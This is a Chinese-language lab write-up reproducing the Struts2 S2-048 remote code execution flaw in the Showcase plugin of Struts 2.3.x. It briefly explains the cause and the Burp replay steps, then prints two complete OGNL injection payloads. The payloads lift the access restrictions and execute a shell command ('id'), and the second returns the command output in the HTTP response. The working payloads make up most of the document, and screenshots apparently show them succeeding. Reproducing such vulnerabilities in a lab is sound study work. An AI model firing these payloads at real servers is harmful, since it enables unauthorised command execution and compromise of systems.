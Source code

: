 # Struts2_048_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			在Struts 2.3.x 版本上的Showcase 插件ActionMessage类中，通过构建不可信的输入可实现远程命令攻击。漏洞成因是当ActionMessage接收客户可控的参数数据时，由于后续数据拼接传递后处理不当导致任意代码执行。

​			影响版本

  		2.3.x

### 0x02漏洞复现

#### payload1(RCE)：

%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}

#### payload2(RCE)：

%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

​			**登录界面**

![S2_048_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_048_rce_1.jpg)

​			**payload1,id被执行**

![S2_048_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_048_rce_2.jpg)

​			**payload1,id被执行**

![S2_048_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_048_rce_3.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_36374896/article/details/84145292

